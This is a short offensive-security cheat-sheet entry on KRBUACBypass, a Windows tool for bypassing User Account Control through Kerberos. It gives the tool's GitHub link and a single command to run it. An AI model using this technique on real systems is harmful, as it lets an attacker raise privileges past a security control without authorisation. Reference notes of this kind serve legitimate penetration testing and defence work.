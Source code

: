 # KRBUACBypass

% Defense evasion, uac
#plateform/windows #target/local #cat/DEFENSE-EVASION/SECURITY/UAC


## desc
```powershell
https://github.com/wh0amitz/KRBUACBypass
```


## Bypass
```powershell
KRBUACBypass.exe krbscm
```